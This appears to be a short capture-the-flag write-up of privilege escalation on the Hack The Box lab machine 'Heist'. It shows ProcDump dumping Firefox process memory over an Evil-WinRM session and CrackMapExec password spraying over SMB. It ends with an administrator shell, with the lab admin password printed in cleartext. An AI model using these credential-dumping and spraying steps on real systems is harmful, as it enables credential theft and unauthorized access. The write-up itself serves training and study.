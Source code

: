 # 20 - PrivEsc



# Firefox is installed
![](vx_images/3530158921441.png)

Firefox is an interesting target, it may include any kind of information in memory. Dumping the memory could give us pretty much anything

# Memory dump
```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump.exe -accepteula -ma 6248

ProcDump v10.1 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[14:40:59] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210805_144059.dmp
[14:40:59] Dump 1 writing: Estimated dump file size is 546 MB.
[14:41:00] Dump 1 complete: 546 MB written in 1.3 seconds
[14:41:00] Dump count reached.
*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_210805_144059.dmp
Progress: 21% : |▓▒░░░░░░░░| 
```

ProcDump is a sysinternals tool. However, the dump takes some time to download.


# Admin password
![](vx_images/2995430789846.png)



# Shell
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ cme smb 10.10.10.149 -u user.lst -p pass.lst  
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator

```
